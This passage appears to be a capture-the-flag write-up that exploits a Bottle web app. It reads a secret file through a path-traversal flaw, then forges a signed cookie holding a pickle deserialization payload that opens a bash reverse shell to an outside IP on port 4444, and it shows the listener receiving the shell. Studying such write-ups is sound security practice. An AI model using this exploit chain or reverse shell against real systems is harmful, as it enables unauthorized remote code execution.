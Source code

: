 Checking exploits about bottle, we come across an open issue that describes a deserialization security issue. => https://github.com/bottlepy/bottle/issues/900

The issue is from 2016, but the issue still being open indicates that there is a decent probability that newer versions are also vulnerable.

Upon checking the source we see that it's the same snippet of code as the issue above with a comment added, confirming that the application is still vulnerable to pickle deserialization.

To proceed we need the secret, and when checking the source again we see the following:

```
from config.secret import secret 
```

This means that we can leverage the LFI to read the file `..%252Fbottle-blog/config/secret.py` and reveal the secret.



```
secret = "546546DSQ7711DSQDSQXWZ"
```

Now we generate our pickle payload.

```
secret = "546546DSQ7711DSQDSQXWZ"
class Exploit:
    def __reduce__(self):
        return (eval, ('__import__("os").system("bash -c \'bash -i >& /dev/tcp/68.183.77.248/4444 0>&1\'")',))

exp = bottle.cookie_encode(
    ('session', {"name": [Exploit()]}),
    secret
).decode()

print("cookie", exp)
```

```
root@c0de:/tmp/# python3 exploit.py
cookie !UQ4wT9AFGTZET81+DlRVjA==?gAWVhQAAAAAAAACMB3Nlc3Npb26UfZSMBG5hbWWUXZSMCGJ1aWx0aW5zlIwEZXZhbJSTlIxQX19pbXBvcnRfXygib3MiKS5zeXN0ZW0oImJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvNjguMTgzLjc3LjI0OC80NDQ0IDA+JjEnIimUhZRSlGFzhpQu
```

Now we navigate to the home page and modify the cookie name (the payload should be in double quotes to work).

We change the cookie, reload the page, and receive a response in our listener.

```
root@vscode-debug-testing:/tmp/bwjy-bottlepoem# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 167.172.107.106 46626
id
uid=1000(hcue) gid=1000(hcue) groups=1000(hcue)
```
